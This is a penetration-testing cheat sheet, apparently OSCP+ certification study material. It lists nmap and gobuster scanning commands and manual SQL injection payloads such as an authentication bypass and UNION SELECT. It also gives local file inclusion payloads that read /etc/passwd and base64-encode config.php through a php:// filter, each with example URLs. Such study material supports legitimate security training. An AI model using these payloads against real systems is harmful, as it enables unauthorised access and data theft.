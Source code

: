 # OSCP+ Cheatsheet: Essential Commands & Options
## 1. Network Scanning

| **Command** | **Usage / Options** |
|------------|----------------|
| `nmap -p- -sC -sV <IP>` | Full TCP scan, service & version detection |
| `nmap -p22,80,445 -A <IP>` | Aggressive scan for specific ports |
| `nmap --script smb-enum-shares,smb-enum-users -p445 <IP>` | SMB enumeration |
| `rustscan -a <IP> --ulimit 5000 | nmap -sC -sV -p <ports>` | Faster port scanning |

---
## 2. Web Enumeration & Exploitation

### 2.1 Web Scanning & Directory Bruteforce

| **Command** | **Usage / Options** |
|------------|----------------|
| `gobuster dir -u http://<IP> -w <wordlist>` | Directory brute-forcing |
| `nikto -h http://<IP>` | Web vulnerability scan |

### 2.2 SQL Injection (Manual) - **Where to Place: Form Fields / URL Parameters**

| **Payload** | **Usage** |
|------------|----------------|
| `' OR '1'='1' --` | Basic authentication bypass (input in username/password field) |
| `UNION SELECT 1,2,3--` | Test for SQLi (find number of columns in a URL parameter) |
| `SELECT table_name FROM information_schema.tables;` | Extract table names manually |

**Example Usage in URL:**  
```
http://<IP>/page.php?id=1' OR '1'='1' --
```

### 2.3 Local File Inclusion (LFI) - **Where to Place: URL Parameters**

| **Payload** | **Usage** |
|------------|----------------|
| `../../../../etc/passwd` | Read Linux `/etc/passwd` (if LFI is possible) |
| `php://filter/convert.base64-encode/resource=config.php` | Base64 encode file to bypass filters |

**Example Usage in URL:**  
```
http://<IP>/page.php?file=../../../../etc/passwd
```
